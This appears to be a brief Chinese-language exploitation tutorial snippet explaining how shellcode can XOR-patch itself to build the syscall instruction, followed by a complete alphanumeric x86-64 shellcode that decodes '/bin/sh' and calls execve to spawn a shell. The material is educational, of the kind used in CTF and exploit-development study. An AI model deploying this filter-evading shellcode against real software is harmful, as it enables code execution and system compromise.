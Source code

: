 一般而言,  我们采用`xor`或者`sub`指令修改shellcode后面的值，构造`0f 05`， 实现syscall。

一个例子(纯字母数字shellcode):

```c
// ref: https://hama.hatenadiary.jp/entry/2017/04/04/190129
/* from call rax */
push rax
push rax
pop rcx

/* XOR pop rsi, pop rdi, syscall */
push 0x41413030
pop rax
xor DWORD PTR [rcx+0x30], eax

/* XOR /bin/sh */
push 0x34303041
pop rax
xor DWORD PTR [rcx+0x34], eax
push 0x41303041
pop rax
xor DWORD PTR [rcx+0x38], eax

/* rdi = &'/bin/sh' */
push rcx
pop rax
xor al, 0x34
push rax

/* rdx = 0 */
push 0x30
pop rax
xor al, 0x30
push rax
pop rdx

push rax

/* rax = 59 (SYS_execve) */
push 0x41
pop rax
xor al, 0x7a

/* pop rsi, pop rdi*/
/* syscall */ 
.byte 0x6e
.byte 0x6f
.byte 0x4e
.byte 0x44

/* /bin/sh */
.byte 0x6e
.byte 0x52
.byte 0x59
.byte 0x5a
.byte 0x6e
.byte 0x43
.byte 0x5a
.byte 0x41
```
